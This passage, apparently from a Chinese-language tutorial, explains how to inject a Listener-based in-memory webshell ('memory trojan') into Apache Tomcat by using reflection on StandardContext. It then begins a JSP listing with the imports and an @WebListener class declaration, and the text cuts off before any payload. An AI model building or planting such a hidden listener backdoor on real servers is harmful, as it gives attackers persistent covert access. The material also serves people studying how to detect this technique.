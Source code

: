 2. 添加 Listener 相比 Filter 和 Servlet 要更为简单，虽然 `StandardContext` 依旧没有直接给出 `addListener`，但是它其中有一些方法： ![image-20241213184600063](Memory-Trojan-Servlet/image-20241213184600063.png)
    当然，知道了需要插入的变量，也可以直接通过反射写入。

3. Listener 内存马如下：
    ```jsp
    <%@ page import="javax.servlet.annotation.WebListener" %>
    <%@ page import="java.io.IOException" %>
    <%@ page import="java.lang.reflect.Field" %>
    <%@ page import="org.apache.catalina.core.ApplicationContext" %>
    <%@ page import="org.apache.catalina.core.StandardContext" %><%--
      Created by IntelliJ IDEA.
      User: hasee
      Date: 2023/5/5
      Time: 19:40
      To change this template use File | Settings | File Templates.
    --%>
    <%@ page contentType="text/html;charset=UTF-8" language="java" %>
    <html>
    <head>
        <title>Title</title>
    </head>
    <body>
    <%!
        @WebListener("MemoryTrojanListener")
        public class MemoryTrojanListener implements ServletRequestListener {
    